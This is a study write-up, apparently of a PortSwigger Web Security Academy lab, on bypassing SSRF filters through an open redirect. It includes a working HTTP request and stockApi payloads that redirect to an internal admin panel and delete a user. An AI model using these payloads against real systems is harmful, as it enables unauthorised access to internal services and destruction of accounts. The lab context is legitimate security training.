



# Bypassing SSRF filters via open redirection

### [Vulnerable website](https://portswigger.net/web-security/learning-paths/ssrf-attacks/ssrf-attacks-circumventing-defenses/ssrf/lab-ssrf-filter-bypass-via-open-redirection#)

## Overview:

- It is sometimes possible to bypass filter-based defenses by exploiting an `open redirection vulnerability`. 

    - If the application whose URL is allowed have an open redirect vulnerability. 

    - And API used to make the back-end HTTP request supports redirect.

    - you can construct a URL that satisfies the filter and results in a redirected request to the desired back-end target. 

- example:

    -  The application contains an open redirection vulnerability in the following URL:

        > /product/nextProduct?currentProductId=6&path=http://evil-user.net

    - returns a redirect to:
        > http://evil-user.net

- ### BYPASS

    ```
    POST /product/stock HTTP/1.0
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 118

    stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
    ```

## Analysis:

- we cant put application IP directly in `stockApi` parameter as it is only accepting **directory path** not **URL**.

    

    Invalid external stock check URL:

    

- Way around - find a API request that is getting redirected and has open redirect vulnerabilty.
    - found that in `next product` GET request.

    

- Use this redirect request path in 'stockApi' and send the attack payload.

    - admin panel:

        > stockApi = /product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin

    - delete user: 
    
        > stockApi = /product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin/delete?username=carlos